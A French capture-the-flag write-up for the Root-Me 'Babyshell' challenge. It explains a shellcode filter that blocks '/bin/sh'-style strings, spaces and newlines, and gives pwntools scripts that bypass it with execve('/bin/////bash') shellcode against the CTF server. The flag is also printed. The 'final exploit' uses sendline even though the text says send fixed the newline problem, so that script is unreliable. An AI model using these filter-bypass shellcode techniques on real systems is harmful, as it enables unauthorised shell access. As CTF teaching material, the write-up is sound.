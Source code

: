 # Babyshell
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033811198585614416/unknown.png">
</p>

<br>
Ce challenge est le premier de la suite de challenge dans la catégorie pwn du CTF Root-Me. Il s'agit d'un challenge relativement simple à première vue: 
écrire un shellcode qui permet d'obtenir un shell. Cependant, on va le voir il y a un petit piège ou deux.
<br><br>

Tout d'abord, une fois le fichier téléchargé le premier réflexe est de le mettre dans Binary Ninja, et de regarder ce qu'il fait exactement. 
Le programme est relativement petit et n'a que deux fonctions importantes. 
L'une des deux est la fonction ``main``.<br><br>

## main()
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033812795654930524/unknown.png">
</p>
<br>

La fonction est simple: <br>
1) ``mmap()`` et utilisé sur une région et la accessible en écriture, lecture et exécution. La fonction ``mmap()`` a un peu le même effet que la commande ``chmod`` sous linux, à la différence près que cette fois-ci c'est une partie de la pile, et non un fichier dont on change les permissions d'accès.
L'utilisation de cette fonction tombe donc sous le sens: le but est d'exécuter un shellcode, il faut donc pouvoir le mettre quelque part, et ensuite l'exécuter!<br>
2) On nous demande notre shellcode, puis celui-ci est passé dans la fonction ``check_shellcode()``. On reviendra bien vite à cette fonction. Cependant, si 
la ``check_shellcode()`` renvoie une autre valeur que 0, la condition n'est pas remplie et par conséquent notre shellcode ne sera pas exécuté.<br>
3) Le programme exécute le shellcode et supprime les permissions ajouté par ``mmap()``.
<br><br>

## check_shellcode()
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033816015643103405/unknown.png">
</p>
<br>
Cette fonction n'est pas très complexe non plus, en quelques mots ce qu'elle fait c'est qu'elle cherche soit pour une chaine de caractère soit un caractère précis.
Si c'est trouvé la fonction va renvoyer une valeur différente de 0, et du coup nous empêcher d'exécuter notre shellcode.<br>
Mais quelles (chaines de) caractères sont bloqués exactement?<br>
En regardant ``BLACKLISTED_STRINGS`` on peut trouver les chaines bloquées
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033818189156585534/unknown.png">
</p>
<br>
On sait donc maintenant que ``/bin/bash``, ``/bin/sh``, ``/bin//sh`` et ``flag.txt`` sont des chaines interdites. En regardant ``BLACKLISTED_CHARS`` on peut trouver les caractères bloqués.
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033818900451831878/unknown.png">
</p>
Et maintenant on sait que les caractères 0x20 (un espace) et 0x0a (un retour à la ligne) sont aussi interdits!
<br>

## Création d'un exploit
<br>
La première idée qui m'est venue en tête est une idée un peu plus compliquée que besoin (et au final pas forcément faisable). Et si j'appelais simplement la fonction ``fgets()`` ? Je pourrais directement écrire dans la zone exécutable et ne pas avoir à passer par la fonction ``check_shellcode()``! <br>
Je me mets donc à créer l'exploit, et la je lance! Plus qu'à attendre le shell... ou pas! Bizarrement, mon exploit est bloqué? Mmmh bizarre, j'y reviendrais plus tard mais pour le moment j'ai abandonné cette idée. Une solution bien plus simple me vient en tête. Je peux simplement utiliser ``execve()`` (j'aurais aussi pû utiliser ``system()``) et appeler ``/bin/////bash``!<br>
Cette fonction a pour but d'exécuter un programme en donnant son chemin d'accès, du coup ça exécuterait ``/bin/////bash`` et me donnerait un shell.<br>
Je me mets donc au boulot et obtiens cet exploit:<br>

```py
from pwn import *
context.arch = "amd64"

io = process('./babyshell')

shellcode = asm(shellcraft.execve("/bin/////bash"))
io.sendline(shellcode)

io.interactive()

```
*J'utilise ``shellcraft`` qui vient de pwntools pour me simplifier la vie, mais on peut aussi très bien écrire à la main le shellcode. Si vous voulez plus d'info sur ``shellcraft`` vous pouvez trouver ça [ici](https://docs.pwntools.com/en/stable/shellcraft.html)*
<br><br>
Je le lance donc en local et... toujours pas accepté! À ce moment je commence à vraiment me poser des questions et débugger mon payload. Après 5 à 10 minutes, je réalise mon erreur et sens un terrible sentiment d'epic fail. La fonction ``sendline()`` ajoute automatiquement un retour à la ligne à ce que j'envoie. Ca vous rappelle pas quelque chose le retour à la ligne? Et ouais! C'est un des caratères qui est interdit!<br>
Du coup, je modifie ``io.sendline(shellcode)`` par ``io.send(shellcode)``, je relance en local et hop! J'ai un shell. Plus qu'à modifier et tester en remote.<br>

## Exploit final
<br>

```py
from pwn import *
context.arch = "amd64"

io = remote('ctf10k.root-me.org', 5004)

shellcode = asm(shellcraft.execve("/bin/////bash"))
io.sendline(shellcode)

io.interactive()
```

<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033822138844598322/unknown.png">
</p>
<br>
<br>
Flag: ``RM{__tw34k1ng_sh3llc0dez_4_dumm13s!}``
<br>

## Petit mot de fin
<br>
Ce challenge n'était pas extrêmement compliqué, mais c'était chouette de le résoudre. J'ai bien aimé le CTF en général et j'espère que tous ceux qui y ont joué ont eu autant de fun que moi!
